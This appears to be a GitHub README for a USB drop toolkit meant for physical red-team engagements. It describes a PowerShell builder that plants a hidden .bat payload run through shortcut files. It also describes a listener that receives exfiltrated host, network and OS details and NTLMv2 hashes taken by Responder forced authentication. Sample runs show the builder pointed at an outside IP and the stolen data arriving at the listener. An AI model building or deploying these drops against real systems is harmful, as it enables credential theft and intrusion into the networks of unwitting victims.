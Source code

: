 # USB Drop Toolkit
___
USB Drop Toolkit is designed for physical security assessments where USB drops are part of the engagement. Includes:
- A PowerShell script to format USB drives with hidden .bat payload executed by shortcut files.
- A listener to capture exfiltrated host and network details (including from a Responder forced auth command.)

Base version of this isn't built for C2, but totally could be... just not worth the maintenance here...

![image](https://github.com/user-attachments/assets/74bbe1ac-e8be-45e9-96e5-a30811b770ff)
___
## Usage

1. Use usb_drop_builder.ps1 to generate USB with hidden .bat paylaod.
```ps1
PS C:\Users\matt\Downloads> .\usb_drop_builder.ps1 54.218.99.118
Select a USB drive to format and prepare:
[0] E: WORK_DOCS (28.89 GB free)
Enter number of drive to use: 0

[+] USB drop successfully created at E:\
DriveLetter FriendlyName FileSystemType DriveType HealthStatus OperationalStatus SizeRemaining     Size
----------- ------------ -------------- --------- ------------ ----------------- -------------     ----
E           WORK_DOCS    FAT32          Removable Healthy      OK                     28.89 GB 28.89 GB
```
2. Start publicly accessible listener... then profit:
```bash
ubuntu:~$ sudo ./usb_listener.py
[*] USB Drop Listener
[*] Listening on port 8080
[*] Logging to ./usb_drop_logs.txt
[?] Have you started Responder on this server? (y/n): y
[*] Waiting for incoming connections... Press Ctrl+C to stop.


=== Successful USB Hit from 1.1.1.1 @ 2025-06-05 23:18:31 ===
=== SYSTEM INFO DUMP ===
[WHOAMI]
hackerman\matt

[HOSTNAME]
Hackerman

[INTERNAL_IP]
   IPv4 Address. . . . . . . . . . . : <redacted>
   IPv4 Address. . . . . . . . . . . : <redacted>
   IPv4 Address. . . . . . . . . . . : <redacted>
   IPv4 Address. . . . . . . . . . . : <redacted>
   IPv4 Address. . . . . . . . . . . : <redacted>

[DOMAIN]
Hackerman

[OS INFO]
OS Name:                       Microsoft Windows 11 Pro
OS Version:                    10.0.26100 N/A Build 26100
Registered Owner:              <redacted>
Registered Organization:       N/A

[Responder]
Successful Responder hit: 13:12 PM - [SMB] NTLMv2-SSP Hash     : matt::Hackerman: <redacted-hash>
```
